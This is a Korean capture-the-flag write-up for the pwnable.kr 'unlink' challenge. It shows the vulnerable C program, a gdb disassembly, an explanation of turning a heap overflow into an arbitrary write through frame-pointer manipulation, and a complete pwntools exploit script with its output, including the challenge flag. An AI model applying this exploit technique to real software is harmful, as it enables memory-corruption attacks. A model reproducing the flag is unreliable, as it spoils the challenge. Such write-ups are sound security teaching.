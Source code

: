 # 문제
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)

---  
# 개요
```
unlink@ubuntu:~$ ls
flag  intended_solution.txt  unlink  unlink.c
unlink@ubuntu:~$ cat intended_solution.txt
cat: intended_solution.txt: Permission denied
```  
음 별로 도움은 되지 않네요 ㅡㅡ;; unlink.c를 살펴봅시다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```
힙 영역에서 발생하는 취약점을 먼저 보고올 필요가 있습니다.
* ![링크1](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/) Hackers on the Ship 블랙펄 화이팅!
* ![링크2](http://www.hackerschool.org/HS_Boards/data/Lib_system/doublefree.txt) Hackerschool

두 개의 문서를 보고 풀이를 보시면 좀더 편합니다!  

---
# 분석
```c
gets(A->buf);

// exploit this unlink!
unlink(B);
return 0;
```
A를 Overflow 시켜서 공격을 하는 문제 입니다.
이 코드를 통해 B를 조작할 수 있습니다.
```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```
보통 unlink는 free를 하면서 일어나는데 여기서는 free를 하는 대신 unlink 함수를 따로 정의하여 사용합니다.

먼저 unlink를 disassembly 해서 살펴봅니다.
```
(gdb) disas unlink
Dump of assembler code for function unlink:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	sub    $0x10,%esp
   0x0804850a <+6>:	mov    0x8(%ebp),%eax
   0x0804850d <+9>:	mov    0x4(%eax),%eax
   0x08048510 <+12>:	mov    %eax,-0x4(%ebp)
   0x08048513 <+15>:	mov    0x8(%ebp),%eax
   0x08048516 <+18>:	mov    (%eax),%eax
   0x08048518 <+20>:	mov    %eax,-0x8(%ebp)
   0x0804851b <+23>:	mov    -0x8(%ebp),%eax
   0x0804851e <+26>:	mov    -0x4(%ebp),%edx
   0x08048521 <+29>:	mov    %edx,0x4(%eax)
   0x08048524 <+32>:	mov    -0x4(%ebp),%eax
   0x08048527 <+35>:	mov    -0x8(%ebp),%edx
   0x0804852a <+38>:	mov    %edx,(%eax)
   0x0804852c <+40>:	nop
   0x0804852d <+41>:	leave  
   0x0804852e <+42>:	ret    
End of assembler dump.
(gdb)
```
unlink(B)이므로 모든 것을 B로 정리를 하면 아래와 같습니다.  
* bk를 ebp - 0x4에 저장
* fd를 ebp - 0x8에 저장
* [fd+4]에 bk를 저장
* [bk]에 fd를 저장

이를 이용하여 원하는 곳에 원하는 값을 입력 가능합니다.

필자는 ret를 직접적으로 건드리지 못하기 때문에
unlink 함수의 SFP를 조작하여 main의 esp 값을 조작해서 문제를 해결했습니다.
ebp를 조작하여 heap에 할당된 데이터영역(buf)를 사용하여 eip에 shell의 주소를 넣었습니다.

```python
from pwn import*

p = ssh(user='unlink',host='pwnable.kr',port=2222,password='guest')
connect = p.process("./unlink")

connect.recvuntil("here is stack address leak: ")
stack_leak = int(connect.recvline().strip(),16)
ret = stack_leak+40

connect.recvuntil("here is heap address leak: ")
heap_leak = int(connect.recvline().strip(),16)

shell = 0x80484eb
ebp = stack_leak-0x1c
fake_ebp = heap_leak+16

payload = p32(shell)+p32(fake_ebp-4)+"A"*8
payload += p32(fake_ebp)
payload += p32(ebp)

connect.sendline(payload)
connect.interactive()
```
실행시켜봅시다!
```
secretpack@ubuntu:~/Desktop$ python exp.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Starting remote process './unlink' on pwnable.kr: pid 54659
[*] Switching to interactive mode
now that you have leaks, get shell!
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```
